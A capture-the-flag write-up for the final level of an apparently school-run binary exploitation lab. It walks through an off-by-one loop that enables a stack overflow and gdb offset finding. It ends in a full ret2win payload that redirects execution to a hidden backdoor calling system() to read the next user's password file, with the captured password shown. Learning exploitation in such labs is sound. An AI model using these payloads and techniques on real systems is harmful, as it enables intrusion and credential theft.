





# level09



```sh
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: Garp The Hero
>: Welcome, Garp The Hero
>: Msg @Unix-Dude
>>: Galaxy Impact
>: Msg sent!
level09@OverRide:~$
```

Let's see the [source code](source.c):

- The `main` function calls `handle_msg` only.

- The `handle_msg` function calls `set_username` and `set_msg` functions BUT declares a buffer of 140 bytes AND 5 `int64_t` variables and 1 `int` (it's important to note that).

- And here's the most important part: `set_username`. It declares a buffer of 140 bytes and copies the username in the buffer at the address `a1 + 140`. The buffer is 140 bytes long and the username is 40 bytes long. Why 40 bytes? Because the loop is from 0 to 40. So, the buffer is 100 bytes long. And the username is at the address `a1 + 140`. So, the username is at the address `a1 + 140` and the buffer is 100 bytes long. It's important to note that.

- The `set_msg` function declares a buffer of 1024 bytes and copies the message in the buffer at the address `a1`. And it returns the copy of the message in the buffer at the address `a1 + 180`. It's important to note that: `a1 + 140` and `a1 + 180` ---> **40 bytes in total**.

## What can we exploit here?

A last function is compiled but not used in the binary: `secret_backdoor`. This function calls `system` with the input of the user. So, we can exploit the buffer overflow in the `set_username` function to call the `secret_backdoor` function.

> With much research, I found the name of the method to exploit this vulnerability: **ret2win**. After ALL THE LEVELS IN [RainFall](https://github.com/nimpoo/rainfall), I found the name of the method to exploit this vulnerability (but [Noah](https://github/noalexan) already knew that...). Yes, it's a bit too late haha... In RainFall, I called that every time "Stack-Based Buffer Overflow". It's correct, but the name is also **ret2win**.

## Okay, let's do a `ret2win`! But how? Where can we overflow to modify the return address? I see nothing where we can overflow...

...

...

...

...

...

...

# OH! Do you see this?



# Still not? See closer...



# And now? Still nothing? Look at this...






# 40 `BYTES`. ARE YOU SURE?


# YEAH, THIS LOOP ITERATES 41 TIMES, NOT 40


Yeah, the thing not to be missed was that: the loop condition is not correct. The loop iterates 41 times, not 40.

And now, we can exploit the buffer overflow in the `set_username` by this little mistake. We can just put 40 `A`s followed by `\xff` to add 255 bytes in the buffer, overflow, and try to find the `offset` to overwrite the return address with the address of the `secret_backdoor` function. We use [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) to find the offset (we generate a string of 510 (why 510? I took that randomly)).

```sh
(gdb) r < <(python -c 'print "A" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9"')
Starting program: /home/users/level09/level09 < <(python -c 'print "A" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9"')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x4138674137674136 in ?? ()
(gdb) 
```

## YES, it works! And the offset is `200` (`0x4138674137674136`).

Now we have to find the address of the `secret_backdoor` function:

```sh
(gdb) print secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
(gdb) 
```
> Notice I **<u>print the address after the program crashes</u>**. If we put a breakpoint at the `main`, we can see the function is located at `0x000000000000088c`. For some reason, I don't know why, all addresses are shifted and this address at the beginning of the program is false.

### And now, it's time to construct the payload:

```sh
python -c 'print "A" * 40 + "\xd0" + "\n" + "-" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00\n" + "cat /home/users/end/.pass\n"' | ./level09
```

`cat /home/users/end/.pass\n`: It's passed just after the address of the `secret_backdoor` function to overwrite the variable `s` in the `secret_backdoor` function. The `system` function takes the `s` variable as an argument.

## Okay, let's try:

```sh
level09@OverRide:~$ python -c 'print "A" * 40 + "\xd0" + "\n" + "-" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00\n" + "cat /home/users/end/.pass\n"' | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
level09@OverRide:~$ 
```

# LET'S FINISH THIS CYBERSECURITY ADVENTURE

```sh
level09@OverRide:~$ su end
Password:
end@OverRide:~$ 
```


It's not finished yet... We have the honor to see what's inside the `end` user's home directory:

```sh
end@OverRide:~$ ls -la
total 13
dr-xr-x---+ 1 end  end     80 Sep 13  2016 .
dr-x--x--x  1 root root   260 Oct  2  2016 ..
-rw-r--r--  1 end  end    220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root root     7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 end  end   3489 Sep 10  2016 .bashrc
-rwsr-s---+ 1 end  users    5 Sep 10  2016 end
-rw-r--r--+ 1 end  end     41 Oct 19  2016 .pass
-rw-r--r--  1 end  end    675 Sep 10  2016 .profile
end@OverRide:~$ 
```

### Oh

```sh
end@OverRide:~$ cat end
GG !
end@OverRide:~$ 
```

# Thank you `wil` !


